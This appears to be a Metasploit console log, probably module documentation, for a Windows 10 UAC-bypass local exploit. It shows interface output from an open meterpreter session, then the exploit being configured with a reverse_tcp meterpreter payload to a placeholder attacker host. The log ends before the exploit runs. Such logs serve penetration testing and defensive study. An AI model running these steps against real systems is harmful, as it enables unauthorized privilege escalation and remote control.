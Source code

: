 ```
[*] Running 'ifconfig' on meterpreter session 1 (<Win10x86_IP>)

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface  2
============
Name         : Teredo Tunneling Pseudo-Interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : 2001:0:4137:9e76:38b8:1e49:3f57:795f
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : fe80::38b8:1e49:3f57:795f
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : Intel(R) 82574L Gigabit Network Connection
Hardware MAC : 00:0c:29:73:25:67
MTU          : 1500
IPv4 Address : <Win10x86_IP>
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::cc97:6548:c10a:f034
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  6
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:c0a8:86a0
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

> sessions -l

Active sessions
===============

  Id  Type                     Information                            Connection
  --  ----                     -----------                            ----------
  1   meterpreter x86/windows  WIN10X86-1511\msfuser @ WIN10X86-1511  <MSF_IP>:30009 -> <Win10x86_IP>:50041 (<Win10x86_IP>)

> use exploit/windows/local/bypassuac_injection_winsxs
> set session 1
session => 1
> set target 0
target => 0
> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
> set lhost <MSF_IP>
lhost => <MSF_IP>
> set lport 30010
```